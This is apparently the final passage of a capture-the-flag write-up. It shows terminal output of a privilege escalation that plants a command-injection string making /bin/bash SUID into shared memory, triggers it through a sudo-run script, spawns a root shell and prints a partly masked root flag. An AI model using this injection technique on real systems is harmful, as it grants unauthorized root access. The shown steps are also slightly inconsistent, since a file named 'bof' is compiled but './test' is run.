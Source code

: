 Running the exploit

```jsx
-bash-5.1$ nano bof.c
-bash-5.1$ gcc -o bof bof.c
-bash-5.1$ while true; do ./test; done
Generated key: 0x4121F
Shared Memory Content:
Leaked hash by furious > '; chmod +s /bin/bash;#
Generated key: 0x4121F
Shared Memory Content:
Leaked hash by furious > '; chmod +s /bin/bash;#
Generated key: 0x4121F
Shared Memory Content:
Leaked hash by furious > '; chmod +s /bin/bash;#
Generated key: 0x4121F
Shared Memory Content:
Leaked hash by furious > '; chmod +s /bin/bash;#
```

#### NOW OPEN ANOTHER TERMINAL AND TYPE IN THE FOLLOWING COMMANDS IN ORDER TO GET THE ROOT

```jsx
-bash-5.1$ sudo /opt/hash-checker/check-leak.sh bob
Password is leaked!
Using the shared memory 0x48A5D as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
-bash-5.1$ bash -p
bash-5.1# whoami
root
```

## Root Flag

```jsx
bash-5.1# cat /root/root.txt
3438-------------------------------
```